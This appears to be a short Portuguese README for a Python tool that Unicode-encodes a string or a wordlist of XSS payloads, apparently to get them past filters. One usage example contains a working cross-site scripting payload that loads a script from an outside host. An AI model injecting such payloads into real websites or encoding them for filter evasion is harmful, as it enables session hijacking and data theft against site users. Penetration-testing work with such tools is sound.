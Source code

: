 # Converter_Unicode

</h1>Passe para o programa uma unica string ou um arquivo de payloads para converter</h1>
</br>
<h2>instalar=> pip install termcolor</h2>
</br>

<h3>Uso exemplo para string: python3 converter_uni.py -s "><script src=\"https://js.rip/j14fkfemu3\"></script></h3>
</br>
<h3>Uso exemplo para wordlist.txt: python3 converter_uni.py -w xss_good.txt</h3>

</br>

<img src="./uni.png">
